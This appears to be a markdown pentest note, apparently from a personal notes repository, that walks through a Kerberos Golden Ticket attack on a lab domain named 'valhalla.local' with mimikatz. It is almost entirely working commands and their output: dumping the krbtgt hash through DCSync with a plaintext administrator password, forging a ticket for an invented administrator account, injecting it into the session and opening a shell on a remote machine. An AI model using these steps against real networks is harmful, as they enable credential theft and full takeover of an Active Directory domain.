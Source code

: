 # Golden Ticket

activate debug mode

```text
mimikatz # privilege::debug
```

Get krbtgt user hash and sid value \(remote\) \(fail because authentication problem\)

```text
mimikatz # lsadump::dcsync /domain:valhalla.local /user:krbtgt
[DC] 'valhalla.local' will be the domain
[DC] 'odin.valhalla.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
ERROR kull_m_rpc_drsr_getDCBind ; RPC Exception 0x00000005 (5)
```

Get krbtgt user hash and sid value \(remote\)

```text
mimikatz # lsadump::dcsync /domain:valhalla.local /user:krbtgt /authuser:administrator /authpassword:Pass123!
[DC] 'valhalla.local' will be the domain
[DC] 'odin.valhalla.local' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
[rpc] Username : administrator
[rpc] Domain   : 
[rpc] Password : Pass123!

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 13.08.2021 07:22:10
Object Security ID   : S-1-5-21-3410397846-649609989-2919355437-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: c2d3b9268608fab2b14a8c78c36316aa
    ntlm- 0: c2d3b9268608fab2b14a8c78c36316aa
    lm  - 0: 36fa5c99898f8a75a7783f250a6bf892
```

Generate Golden Ticket

```text
mimikatz # kerberos::golden /domain:valhalla.local /sid:S-1-5-21-3410397846-649609989-2919355437 /rc4:c2d3b9268608fab2b14a8c78c36316aa /id:500 /user:IgotGoldenTicketCharlie
User      : IgotGoldenTicketCharlie
Domain    : valhalla.local (VALHALLA)
SID       : S-1-5-21-3410397846-649609989-2919355437
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: c2d3b9268608fab2b14a8c78c36316aa - rc4_hmac_nt      
Lifetime  : 14.08.2021 01:11:51 ; 12.08.2031 01:11:51 ; 12.08.2031 01:11:51
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

Inject ticket to current session

```text
mimikatz # kerberos::ptt ticket.kirbi

* File: 'ticket.kirbi': OK
```

Open new cmd with injected ticket

```text
mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 000000004AC49C78
```

Access remote pc with normal shell

![image](https://user-images.githubusercontent.com/13157446/129424592-e3ed2a44-da5b-4092-a510-ec0c82c379af.png)

![image](https://user-images.githubusercontent.com/13157446/129424244-a7789524-03b0-454f-9c31-00ea922325a1.png)

Access remote pc

![image](https://user-images.githubusercontent.com/13157446/129424569-f6d10db2-4e5f-402d-beb9-f827cb25fada.png)

![image](https://user-images.githubusercontent.com/13157446/129424166-5296aee2-0d58-4906-8331-19c1d34e3526.png)

